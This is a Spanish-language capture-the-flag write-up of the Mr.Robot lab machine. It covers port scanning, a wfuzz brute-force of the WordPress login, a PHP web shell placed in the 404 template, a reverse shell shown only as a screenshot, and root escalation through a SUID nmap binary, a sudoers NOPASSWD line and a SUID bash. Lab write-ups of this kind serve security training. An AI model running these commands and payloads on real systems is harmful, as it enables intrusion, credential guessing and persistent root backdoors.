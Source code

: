 ```yaml
---
layout: post
title: Mr.Robot CTF
author: Al3xt0r
date: 2023-06-15
tags: [CTF, VulnHub]
---
```

{:.lead}
## Comentario:
Esta fue de las primeras maquinas que hice, inspirada en la serie **"Mr.Robot"**. Tiene una forma muy entretenida de resolver, comenzamos:

![](/assets/img/Mr.Robot/Mr.Robot1.png)

**Lista de lo que se vera en esta machine:**

* Reconocimiento de puertos
* Explotacion
* Escalada de privilegios usando SUDOERS

## Reconocimiento

```bash
sudo nmap -sS -p- 65535 --open --min-rate 5000 -vvv -n -Pn <IP-De la maquina>
```
O si quieres ir a lo loco:

```bash
nmap -T5 <IP- De la Maquina>
```
El caso, veremos puertos interesantes:

![](/assets/img/Mr.Robot/Mr1.png)

* 22 - SSH
* 80 - Http
* 443 - Https

Ahora lo que haremos sera ver los servicios y las versiones usadas tras los puertos, usando el comando:

```bash
nmap -sCV -p22,80,443 <IP>
```
![](/assets/img/Mr.Robot/Mr2.png)

Como podemos ver, tanto el puerto **80,443** nos llevan a una pagina web:

![](/assets/img/Mr.Robot/Mr3.png)

Para optimizar el proceso de enumeracion de directorios, tiraremos de un **Script**, propio de la herramienta nmap.

```bash
nmap --script=http-enum -p80 <IP De la Maquina>
```
![](/assets/img/Mr.Robot/Mr4.png)

Podemos ver directorios interesantes, como:
* **/robots.txt**
* **/wp-login.php**

Si vamos a la ruta robots veremos cosas interesantes:

![](/assets/img/Mr.Robot/Mr6.png)
![](/assets/img/Mr.Robot/Mr5.png)

Nos descargamos lo que parece ser un diccionario, el archivo **fsocity.dic**.

Y si lo analizamos, podremos ver que es un diccionario "extenso":

![](/assets/img/Mr.Robot/Mr7.png)
![](/assets/img/Mr.Robot/Mr8.png)

Pero si filtramos por el comando "sort", para ordenar si es que existen cadenas de texto iguales, podremos ver passwords repetidas, asi que eliminaremos eso y nos quedaremos solo con las **unicas** y lo almacenaremos en un nuevo diccionario.

![](/assets/img/Mr.Robot/Mr9.png)

## Intrusion

Ahora nos quedaria tirar de un ataque de fuerza bruta contra el directorio de login que descrubrimos anteriormente, "**/wp-login.php**"

Si tratamos de testear al usuario, veremos que "**admin**"" no es un usuario existente:

![](/assets/img/Mr.Robot/Mr10.png)

Pero si hemos visto la serie, uno de los personajes principales tiene de nombre **"Elliot Alderson"**, asi que veamos si existe el usuario "**elliot**"

![](/assets/img/Mr.Robot/Mr11.png)

Como podemos ver, el usuario es existente, por lo que trataremos de aplicarle **fuerza bruta** al campo de la password.
Usando la herramienta **burpsuite**, interceptaremos la peticion para obtener informacion importante:

![](/assets/img/Mr.Robot/Mr12.png)

Podemos ver cositas:
* La  cabecera lleva una "Cookie"
* El campo que queremos bruteforcear se fija en **log=elliot&pwd=Password**

Yo use la herramienta **wfuzz** para aplicar el ataque, pero puedes usar tranquilamente burpsuite pasandole el diccionario.

![](/assets/img/Mr.Robot/Mr13.png)

El comando utilizado fue:

```bash
wfuzz -c -u <URL De la Maquina>/wp-login.php -H "Cookie: <Cabecera que sacamos del burpsuite>" -d "log=elliot&pwd=FUZZ" -w <Ruta del diccionario que creamos>
```
Podemos ver que todas nos devuelven un estado 200, y una cantidad de respuesta igual a 3727, menos una password, **"ER28-0652"**, esta nos devuelve un codigo **302 - FOUND**. Por lo que esa es nuestra password.

![](/assets/img/Mr.Robot/Mr14.png)

Como podemos ver, entramos como el usuario Elliot, ahora nos toca buscar dentro de la interfaz algo que nos permita meternos de lleno dentro del servidor.

Si nos dirigimos a "Appeareance", podemos ver el codigo que se emplea para cuando se da un **"404 Not Found"**

![](/assets/img/Mr.Robot/Mr15.png)
![](/assets/img/Mr.Robot/Mr16.png)

Asi que como tenemos opcion de modificar la funcion, le introducimos un codigo php malicioso:

```php
<?php
  system($_GET['cmd']);
>
```
![](/assets/img/Mr.Robot/Mr17.png)

Esto nos permite ejecutar codigo directamente en el sistema, usando php como interprete.

![](/assets/img/Mr.Robot/Mr18.png)

Por lo que nos queda introducir nuestra reverse shell y ganar acceso a la maquina:

![](/assets/img/Mr.Robot/Mr19.png)

Entonces, nos queda buscar si existen binarios con permisos **SUID** o similares:

## Escalada de Privilegios (PRIVESC)

![](/assets/img/Mr.Robot/Mr20.png)

Podemos ver que tenemos un binario de **nmap**, pero si vemos la version, vamos a toparnos con que es muy desactualizada, asi que vamos a nuestra pagina de confianza [GTFOBINS](https://gtfobins.github.io)

![](/assets/img/Mr.Robot/Mr21.png)

Ejecutamos el comando binario como nos lo indica, y podemos ejecutar comandos como root:

![](/assets/img/Mr.Robot/MrRobot21.png)

En este caso, podemos explotar el fichero de **/etc/sudoers**, para no introducir password, o podemos darle permisos de super usuario al binario de **/bin/bash**:

Para el sudoers:

```bash
echo "ALL ALL=(ALL) NOPASSWD: ALL" | tee -a /etc/sudoers
```
Para el binario de **bash**

```bash
chmod u+s /bin/bash
```
Para finalizar, si estas en **TryHackMe**, aqui te doy la forma rapida de tener las llaves:

![](/assets/img/Mr.Robot/Mr22.png)

## FIN



